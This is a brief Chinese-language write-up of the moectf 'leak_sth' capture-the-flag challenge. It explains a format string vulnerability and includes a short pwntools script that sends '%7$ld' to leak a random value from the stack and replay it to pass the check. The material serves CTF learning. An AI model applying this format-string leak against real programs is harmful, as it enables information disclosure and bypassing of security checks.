

# moectf leak_sth

by Maple

格式化字符串漏洞读指定位置数据

```python
from pwn import *
p = process('./pwn')
p.send(b'%7$ld')
p.recvuntil('name:\n')
num = int(p.recvuntil('G')[:-1])

p.send(str(num))
p.interactive()
```



通过`%7$ld`将栈上第7个参数的值读出，也就是读出了随机数v3,至于怎么知道是第7位，~~试出来的~~